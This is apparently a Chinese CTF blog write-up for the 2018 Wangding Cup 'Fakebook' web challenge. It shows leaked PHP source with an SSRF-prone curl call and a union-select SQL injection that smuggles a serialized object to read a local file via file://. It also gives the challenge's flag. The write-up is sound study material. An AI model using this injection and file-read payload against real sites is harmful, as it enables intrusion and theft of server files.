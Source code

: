 ```yaml
---
title: buuoj刷题记录5
date: 2019-12-30 16:19:44
tags:
 - 网鼎杯2018
 - buuctf
 - web
categories: 
 - 刷题记录
---
```


## [网鼎杯 2018]Fakebook

### 0x00 基础

一般文件的目录又xxx.php.bak/swp，或者查看元素、robots.txt里面有提示，或者`www.zip`等一系列文件中出现网站源码。也可以使用工具扫描

<!--more-->

### 0x01 分析

访问`robots.txt`，给了一个提示

```html
User-agent: *
Disallow: /user.php.bak
```

拿到`user.php`的源码

```php
<?php


class UserInfo
{
    public $name = "";
    public $age = 0;
    public $blog = "";

    public function __construct($name, $age, $blog)
    {
        $this->name = $name;
        $this->age = (int)$age;
        $this->blog = $blog;
    }

    function get($url)
    {
        $ch = curl_init();   //初始化链接

        curl_setopt($ch, CURLOPT_URL, $url);     //设置CURLOPT_URL
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);   //将curl_exec()获取的信息以文件流的形式返回,而不是直接输出
        $output = curl_exec($ch);      /执行CURL会话;此处存在ssrf
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch);

        return $output;
    }

    public function getBlogContents ()
    {
        return $this->get($this->blog);  //获取博客地址
    }

    public function isValidBlog ()
    {
        $blog = $this->blog;
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);  //博客地址有过滤
    }

}
```

访问`flag.php`，显示返回是200。那么应该是要将`./flag.php`写入博客地址，让程序加载。

在加入一个用户时的`username`存在post注入，加入完成，进入到`view.php`发现也存在注入

### 0x02 开始操作

使用sqlmap跑了一遍post注入，发现数据库中存的是序列化后结果，应该存在序列化漏洞。

![](/pic/4.png)
```
payload=view.php?no=0/**/union/**/select/**/1,2,3,'O:8:"UserInfo":3{s:4:"name";s:4:"and";s:3:"age";i:12;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'
```

执行结果

![](/pic/5.png)

查看源码

```html
<!doctype html>
<html lang="ko">
<head>
    <meta charset="UTF-8">
    <meta name="viewport"
          content="width=device-width, user-scalable=no, initial-scale=1.0, maximum-scale=1.0, minimum-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <title>User</title>

    <link rel="stylesheet" href="css/bootstrap.min.css" crossorigin="anonymous">
<script src="js/jquery-3.3.1.slim.min.js" crossorigin="anonymous"></script>
<script src="js/popper.min.js" crossorigin="anonymous"></script>
<script src="js/bootstrap.min.js" crossorigin="anonymous"></script>
</head>
<body>
<div class="container">
    <table class="table">
        <tr>
            <th>
                username
            </th>
            <th>
                age
            </th>
            <th>
                blog
            </th>
        </tr>
        <tr>
            <td>
                2            </td>
            <td>
                12            </td>
            <td>
                file:///var/www/html/flag.php            </td>
        </tr>
    </table>

    <hr>
    <br><br><br><br><br>
    <p>the contents of his/her blog</p>
    <hr>
    <iframe width='100%' height='10em' src='data:text/html;base64,PD9waHANCg0KJGZsYWcgPSAiZmxhZ3s4MzUwNjViNi1iNjBkLTQ5ZGEtYTkyYi1kZDgwZDM4MDMyZGN9IjsNCmV4aXQoMCk7DQo='>
</div>
</body>
</html>
```

点击即可看见flag

```php
<?php

$flag = "flag{835065b6-b60d-49da-a92b-dd80d38032dc}";
exit(0);

```

